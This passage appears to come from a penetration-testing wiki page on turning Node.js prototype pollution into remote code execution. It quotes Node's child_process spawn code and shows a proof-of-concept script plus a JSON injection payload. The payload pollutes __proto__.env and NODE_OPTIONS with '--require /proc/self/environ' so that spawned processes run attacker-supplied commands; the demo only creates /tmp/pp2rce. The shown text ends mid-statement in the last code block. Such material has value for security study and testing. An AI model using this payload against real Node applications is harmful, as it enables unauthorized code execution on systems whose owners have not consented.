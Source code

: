 ## PP2RCE via env vars

**PP2RCE** means **Prototype Pollution to RCE** (Remote Code Execution).

According to this [**writeup**](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/) when a **process is spawned** with some method from **`child_process`** (like `fork` or `spawn` or others) it calls the method `normalizeSpawnArguments` which a **prototype pollution gadget to create new env vars**:

```javascript
//See code in https://github.com/nodejs/node/blob/02aa8c22c26220e16616a88370d111c0229efe5e/lib/child_process.js#L638-L686

var env = options.env || process.env;
var envPairs = [];
[...]
let envKeys = [];
// Prototype values are intentionally included.
for (const key in env) {
  ArrayPrototypePush(envKeys, key);
}
[...]
for (const key of envKeys) {
  const value = env[key];
  if (value !== undefined) {
    ArrayPrototypePush(envPairs, `${key}=${value}`); // <-- Pollution
  }
}
```

Check that code you can see it's possible en **poison `envPairs`** just by **polluting** the **attribute `.env`.**

### **Poisoning `__proto__`**

> [!WARNING]
> Note that due to how the **`normalizeSpawnArguments`** function from the **`child_process`** library of node works, when something is called in order to **set a new env variable** for the process you just need to **pollute anything**.\
> For example, if you do `__proto__.avar="valuevar"` the process will be spawned with a var called `avar` with value `valuevar`.
>
> However, in order for the **env variable to be the first one** you need to **pollute** the **`.env` attribute** and (only in some methods) that var will be the **first one** (allowing the attack).
>
> That's why **`NODE_OPTIONS`** is **not inside `.env`** in the following attack.

```javascript
const { execSync, fork } = require("child_process");

// Manual Pollution
b = {};
b.__proto__.env = {
  EVIL: "console.log(require('child_process').execSync('touch /tmp/pp2rce').toString())//",
};
b.__proto__.NODE_OPTIONS = "--require /proc/self/environ";

// Trigger gadget
var proc = fork("./a_file.js");
// This should create the file /tmp/pp2rec

// Abusing the vulnerable code
USERINPUT = JSON.parse(
  '{"__proto__": {"NODE_OPTIONS": "--require /proc/self/environ", "env": { "EVIL":"console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce\\").toString())//"}}}'
```